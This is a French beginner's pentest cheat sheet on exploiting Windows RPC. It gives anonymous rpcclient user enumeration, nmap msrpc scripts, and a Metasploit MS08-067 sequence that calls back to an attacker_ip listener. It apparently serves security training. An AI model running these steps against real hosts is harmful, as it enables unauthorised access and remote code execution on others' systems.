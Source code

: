# Exploitation RPC (Remote Procedure Call)

## Objectif
Exploiter des faiblesses de configuration ou des vulnérabilités RPC pour obtenir des informations sensibles ou exécuter du code à distance.

---

## Explications vulgarisées
- RPC permet à des programmes de communiquer à distance. Sur Windows, il est utilisé pour de nombreux services (partages, gestion AD, etc.). Des failles ou de mauvais réglages peuvent permettre un accès non autorisé ou une exécution de code.

---

## Commandes et étapes essentielles

### 1. Enumération des services RPC
```bash
rpcclient -U "" target.com
```
- **rpcclient** : Outil pour interroger les services RPC sur une machine Windows.
- **-U ""** : Connexion anonyme.
- **Exemple de sortie** :
```
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
```
- **À surveiller** : Comptes admin, utilisateurs, groupes.

### 2. Enumération automatisée avec Nmap
```bash
nmap -p 135 --script msrpc-enum,msrpc-info target.com
```
- **msrpc-enum** : Enumère les interfaces RPC.
- **msrpc-info** : Récupère des infos sur les services RPC.

### 3. Exploitation de failles connues (ex : MS03-026, MS08-067)
- Utiliser Metasploit ou des scripts publics pour exploiter des vulnérabilités RPC.
- Exemple :
```bash
msfconsole
use exploit/windows/smb/ms08_067_netapi
set RHOSTS target.com
set LHOST attacker_ip
run
```

---

## Conseils pour débutants
- Toujours commencer par l'énumération anonyme avant d'essayer des credentials.
- Attention aux crashs ou blue screens sur les cibles vulnérables.
- Lire la documentation de chaque outil pour découvrir des options avancées.

---

## Pour aller plus loin
- [PayloadsAllTheThings - RPC](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/RPC%20Methodology)
- [Nmap RPC NSE Scripts](https://nmap.org/nsedoc/categories/rpc.html) 